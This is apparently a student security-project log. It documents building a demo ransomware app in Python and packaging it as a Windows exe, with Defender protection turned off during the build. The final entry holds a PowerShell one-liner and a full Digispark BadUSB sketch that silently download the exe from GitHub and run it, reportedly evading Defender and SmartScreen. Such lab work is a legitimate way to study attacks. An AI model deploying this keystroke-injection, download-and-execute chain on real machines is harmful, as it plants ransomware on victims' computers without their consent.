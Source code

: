 ### 19.9.2023:
 - Introduction to simple encrpytion and decryption scripts made with python 
 - Made [Simple scripts](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/ransomware/Contents) with the help of NetworkChuck's video: https://www.youtube.com/watch?v=UtMMjXOlRQc

### 26.9.2023:

My goal for today is to combine the scripts made from previous week and put them together in a form of application. For now the GUI only needs one button and maybe few text boxes. 

After researching different options I chose to go with tkinter since there was an easy to follow guide in [GeeksForGeeks](https://www.geeksforgeeks.org/create-first-gui-application-using-python-tkinter/) on how to create a GUI application. GeeksForGeeks also had a [tkinter-cheat-sheet](https://www.geeksforgeeks.org/tkinter-cheat-sheet/) which was nice.

At first I combined and tidied up the scripts a little and made functions to the code so that the application calls for the function when its started or when a button is pressed. 

My vision was that the decrypt button only decrypts if correct password is given. 

I started making the application by adding the Decrypt button, password field and a greetings message. After few hours of learning and tweaking, the code of the app looks such:

```
#main window
root = tk.Tk()
root.title("RANSOMWARE DECRYPTOR")
root.geometry("600x500")
bg_color = root.cget("bg")

#message label
message_label = tk.Label(root, text="Unfortunately you've been hit by a ransomware :( this is only a demonstration so you don't have to pay anything to anybody. Password is lihapulla", wraplength=350, width=60, font=("Arial", 13))
message_label.pack(pady=30)

#password label
pw_label = tk.Label(root, text="Enter secret password to decrypt files", font=("Arial", 13))
pw_label.pack(pady=2)

#password text field
pw_entry = tk.Entry(root, width=15, font=("Arial", 17), show="*")
pw_entry.pack(pady=2)

#button to decrypt
decrypt_button = tk.Button(root, text="Decrypt Files", font=("Arial", 13))
decrypt_button.pack(pady=5)

root.mainloop()

```

 ![2023-09-26_20-48](https://github.com/therealhalonen/PhishSticks/assets/112076418/a4f2cae1-c12d-4948-833d-ab4819715eb3)

 To be continued..

Fast forward two hours later I continued to work and managed glue everything together with the help of ChatGPT. Assinging encrypt_files function to application startup and decrypt button with decrypt_files function was done and everything was working. I added some colors and information like what files have been encrypted, is the password correct and are there any files to decrypt.

For now the app looks like this:

![2023-09-26_21-03](https://github.com/therealhalonen/PhishSticks/assets/112076418/8fb9e882-b990-48cd-add6-309dd09af3be)

Full Python code and tests can be found [here](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/ransomware/ransom_app)

TO DO:
- convert working application to executable with [PyInstaller](https://datatofish.com/executable-pyinstaller/)?

### 4.10.2023:

Goal for today is to convert the working encrypt.py to encrypt.exe so it is possible to run anywhere without the need of python. I started off by reading [Finxters Python to EXE Linux: A Concise Guide to Conversion](https://blog.finxter.com/python-to-exe-linux-a-concise-guide-to-conversion/). 

"Keep in mind that while PyInstaller does an excellent job of generating executables on Linux systems, cross-compiling for Windows executables from a Linux environment is a more complex task."

After reading this I decided to go with the instruction on Windows environment since thats the environment this program is supposed to work in. So I hopped on to a Windows machine and downloaded the script and test files. I installed auto-to-py-exe that works with GUI. 
```
pip install auto-py-to-exe
auto-py-to-exe
```

![2023-10-04_17-57](https://github.com/therealhalonen/PhishSticks/assets/112076418/274f25fd-7630-4495-94ce-979c1137272c)


After giving the filepath and pressing the convert button, I ended up having Windows security stop the process, because it detected the file to be malicious, so I had to turn Real-time protection off for the time. After that I ended up having working encrypt.exe! Next thing I did was adding a custom icon to the file just for fun. 

![2023-10-04_19-25](https://github.com/therealhalonen/PhishSticks/assets/112076418/4c00b5d4-8ea5-46b8-9bbc-124bf8837e8f)

Right now its working on two Windows systems I have tested it in. But unfortunately not on Linux :(

TO DO:
- Setup digispark with [sawulohi's](https://github.com/therealhalonen/PhishSticks/blob/master/notes/ollikainen/notes.md#digispark) digispark tutorial - Done
- bypass windows defender/smart screen
- deploy the encrypt.exe with Digispark, something like [SaturnsVoid](https://github.com/SaturnsVoid/Digispark-Payload-Downloader) has done.

### 10.10.2023

I started up with modifying the previous application to only encrypt .txt and image files, just to be more safe when playing around.

Powershell command to download the exe to users Documents folder and start it after downloading has finished:
```Powershell
Invoke-WebRequest -OutFile "$env:UserProfile/Documents/malware.exe" -Uri "https://github.com/therealhalonen/PhishSticks/raw/master/payloads/ransomware/ransom_app/encrypt.exe";Start-Process $env:UserProfile/Documents/malware.exe -WorkingDir $env:UserProfile/Documents
```
The code outputs a file that can be run in a given directory that it specified after -WorkingDir

Next thing to do is to make Digispark execute the above command.

Setting Digispark to open run menu with Win + R and then opening up powershell and typing the command works! Quotes have to be escaped by using backslash \ for example  `\"https://example.com\"`

I also added `powershell.exe -windowstyle hidden` to run the downloading process in the background after the command is given. 
```
#include <DigiKeyboardFi.h>

void setup() {}

void loop() {
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.delay(500);
DigiKeyboardFi.print("powershell");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(1500);
DigiKeyboardFi.print("powershell.exe -windowstyle hidden Invoke-WebRequest -OutFile $env:UserProfile/Documents/malware.exe -Uri \"https://github.com/therealhalonen/PhishSticks/raw/master/payloads/ransomware/ransom_app/encrypt.exe\";Start-Process $env:UserProfile/Documents/malware.exe -WorkingDir $env:UserProfile/Documents");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);
exit(0);
}

```
All this was pretty painless and straightforward, and for some reason it seems to bypass previous issues with Windows Defender and SmartScreen.

Demo can be found [here](https://www.youtube.com/watch?v=Bi2QOMSHeKI)
